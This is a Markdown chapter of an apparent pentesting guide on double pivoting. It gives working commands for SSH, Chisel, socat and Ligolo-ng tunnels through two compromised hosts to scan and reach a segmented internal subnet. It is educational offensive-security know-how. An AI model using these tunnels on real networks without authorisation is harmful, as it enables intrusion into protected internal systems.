



# 🔗 Double Pivoting (Advanced)

> **Level: 🔴 Advanced**
> Reach deep internal networks through multiple compromised hosts.

---

## 📖 Table of Contents

1. [What is Double Pivoting?](#-1-what-is-double-pivoting)
2. [Network Scenario](#-2-network-scenario)
3. [Method 1: SSH Double Pivot](#-3-method-1-ssh-double-pivot)
4. [Method 2: Chisel Double Pivot](#-4-method-2-chisel-double-pivot)
5. [Method 3: Ligolo-ng Double Pivot](#-5-method-3-ligolo-ng-double-pivot)
6. [Method 4: Mixed Tool Chains](#-6-method-4-mixed-tool-chains)
7. [Real-World Pentest Workflow](#-7-real-world-pentest-workflow)
8. [Troubleshooting](#-8-troubleshooting)

---

## 🧠 1. What is Double Pivoting?

**Double pivoting** = tunneling through **two** compromised hosts to reach a network two hops away.

Real corporate networks are **segmented**:



To reach the Database: Compromise Web Server (Pivot 1), then App Server (Pivot 2).

---

## 🗺️ 2. Network Scenario

This scenario is used throughout all methods below:

```
┌──────────────┐     ┌──────────────────┐     ┌──────────────────┐     ┌──────────────┐
│   ATTACKER   │     │    PIVOT 1        │     │    PIVOT 2        │     │   TARGET      │
│   10.0.0.5   │────→│  10.0.0.20       │────→│  172.16.1.50     │────→│ 192.168.100  │
│              │     │  172.16.1.20     │     │  192.168.100.50  │     │ .100         │
└──────────────┘     └──────────────────┘     └──────────────────┘     └──────────────┘
```



---

## 🔐 3. Method 1: SSH Double Pivot

### Approach A: Nested SSH Tunnels

```bash
# Step 1: Forward Pivot 2's SSH port through Pivot 1
ssh -L 2222:172.16.1.50:22 -N -f user@10.0.0.20

# Step 2: Through Pivot 2 (via localhost:2222), forward Target's ports
ssh -L 8080:192.168.100.100:80 -L 3306:192.168.100.100:3306 -N -f -p 2222 user@localhost

# Step 3: Access the Target
curl http://localhost:8080
mysql -h localhost -P 3306 -u root
```

### Approach B: SSH ProxyJump (Cleaner)

```bash
ssh -J user@10.0.0.20,user@172.16.1.50 \
    -L 8080:192.168.100.100:80 \
    -N -f user@192.168.100.100
```

### Approach C: Chained SOCKS Proxies

```bash
# SOCKS 1: Through Pivot 1
ssh -D 9050 -N -f user@10.0.0.20

# SOCKS 2: Through Pivot 2 (via first SOCKS)
proxychains ssh -D 9051 -N -f user@172.16.1.50

# Configure proxychains to chain both:
# /etc/proxychains4.conf
# strict_chain
# [ProxyList]
# socks5 127.0.0.1 9050
# socks5 127.0.0.1 9051

# Access Target
proxychains nmap -sT -Pn 192.168.100.100
```

---

## 🔵 4. Method 2: Chisel Double Pivot

### Step 1: First Tunnel (Attacker ← Pivot 1)

```bash
# Attacker: Start Chisel server
chisel server --port 8000 --reverse

# Pivot 1: Reverse SOCKS
chisel client 10.0.0.5:8000 R:1080:socks
```

SOCKS at `127.0.0.1:1080` → reaches 172.16.1.0/24

### Step 2: Relay Second Chisel Server

```bash
# Attacker: Second Chisel server
chisel server --port 9000 --reverse

# Pivot 1: Relay port 9000 to Attacker
socat TCP-LISTEN:9000,fork TCP:10.0.0.5:9000
```

### Step 3: Pivot 2 Connects Through Relay

```bash
# Pivot 2: Connect to Chisel via Pivot 1's relay
chisel client 172.16.1.20:9000 R:2080:socks
```

SOCKS at `127.0.0.1:2080` → reaches 192.168.100.0/24

### Step 4: Access Deep Network

```bash
# /etc/proxychains4.conf → socks5 127.0.0.1 2080
proxychains nmap -sT -Pn 192.168.100.100
```

---

## 🟢 5. Method 3: Ligolo-ng Double Pivot

> 💡 **Easiest and most powerful method** — built-in multi-hop support!

### Step 1: First Pivot

```bash
# Attacker: Create TUN, start proxy
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert

# Pivot 1: Run agent
./agent -connect 10.0.0.5:11601 -ignore-cert

# Proxy: Select session, start, add route
# session → select Pivot 1 → start
sudo ip route add 172.16.1.0/24 dev ligolo
```

### Step 2: Create Listener on Pivot 1

```
# In proxy (Pivot 1 selected):
[Agent : PIVOT1] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

Pivot 1 now relays agent connections back to the proxy!

### Step 3: Run Agent on Pivot 2

```bash
# Transfer agent to Pivot 2 (now reachable)
scp agent user@172.16.1.50:/tmp/

# Pivot 2: Connect via Pivot 1's listener
./agent -connect 172.16.1.20:11601 -ignore-cert
```

### Step 4: Route Second Subnet

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo2
sudo ip link set ligolo2 up
# Proxy: session → select Pivot 2 → start
sudo ip route add 192.168.100.0/24 dev ligolo2
```

### Step 5: Access Target — No Proxychains!

```bash
ping 192.168.100.100           # ✅ ICMP works!
nmap -sV 192.168.100.100       # ✅ Full nmap!
curl http://192.168.100.100    # ✅ Native!
```

---

## 🔀 6. Method 4: Mixed Tool Chains

Use different tools at each hop based on availability:

```bash
# Hop 1: sshuttle (Pivot 1 has SSH + Python)
sudo sshuttle -r user@10.0.0.20 172.16.1.0/24

# Hop 2: Ligolo (Pivot 2 — no SSH)
# Reach Pivot 2 via sshuttle, run agent
./agent -connect 10.0.0.5:11601 -ignore-cert
sudo ip route add 192.168.100.0/24 dev ligolo
```

---

## 🎯 7. Real-World Pentest Workflow



---

## 🔧 8. Troubleshooting

| Issue | Cause | Fix |
|-------|-------|-----|
| Agent can't connect to listener | Listener not active | Check `listener_list` |
| No route for second hop | Missing `ip route add` | Add route for deep subnet |
| Very slow | Multi-layer encryption | Normal — reduce scan scope |
| Can't upload agent to Pivot 2 | First tunnel not working | Verify first hop with `ping` |

### Method Comparison

| Method | Difficulty | Native Tools? | ICMP | Speed |
|--------|-----------|---------------|------|-------|
| SSH Chained | Medium | ❌ proxychains | ❌ | Good |
| Chisel Chain | Medium | ❌ proxychains | ❌ | Good |
| **Ligolo-ng** | **Easy** | **✅ All tools** | **✅** | **Best** |
| Mixed | Hard | Varies | Varies | Varies |

> 💡 **Use Ligolo-ng for double pivoting whenever possible.**

---

## ⏮️ [← sshuttle](./07_sshuttle_and_vpn_tunneling.md) | ⏭️ [DNS & ICMP Tunneling →](./09_dns_icmp_tunneling.md)
